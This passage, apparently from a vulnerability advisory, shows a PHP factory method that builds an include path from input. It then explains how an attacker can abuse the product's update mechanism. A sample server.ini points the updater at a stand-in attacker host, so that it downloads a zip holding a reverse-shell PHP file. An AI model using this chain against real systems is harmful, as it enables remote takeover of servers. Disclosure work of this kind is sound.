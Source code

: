 
File /var/www/AdminUI/widget/inc/class/widgetPool/WidgetPoolFactory.abstract.php:
    
    
             
```
public function getWidgetPoolManager($strUpdateType = 'widget'){
    if(! isset(self::$instance[__FUNCTION__][$strUpdateType])){
        $strFileName = $this->objFramework->getTypeFactory()->getString()->getUpperCamelCase($strUpdateType);
        require_once (self::getDirnameFile() . '/widget/'.$strFileName.'PoolManager.php');
        $strClassName = 'WF'.$strFileName.'PoolManager';
        self::$instance[__FUNCTION__][$strUpdateType] = new $strClassName($this->objFramework);
    }
    return self::$instance[__FUNCTION__][$strUpdateType];
}
```              

One way for an attacker to place an arbitrary file on the system is to abuse the update process that can be managed from the same product console.

Files downloaded from alternate update sources are stored in the /var/tmcss/activeupdate directory. An attacker can setup a fake update server and trigger an update from it to download the malicious archive.

As an example, we have packed a reverse shell named rshellPoolManager.php into the bf1747402402.zip archive. The following server.ini would instruct the application to download the archive and uncompress it inside /var/tmcss/activeupdate:
    
    
      
```
; =======================================
; ActiveUpdate 1.2 US
;
; Filename: Server.ini
;
; New Format AU 1.8
;
; Last modified by AUJP1 10/14/2015
; =======================================

[Common]
Version=1.2
CertExpireDate=Jul 28 08:52:40 2019 GMT

[Server]
AvailableServer=1
Server.1=http://<serverIP>:1080/
AltServer=http://<serverIP>:1080/
Https=http://<serverIP>:1080/

[PATTERN]
P.48040039=pattern/bf1747402402.zip,1747402402,257
```                
              
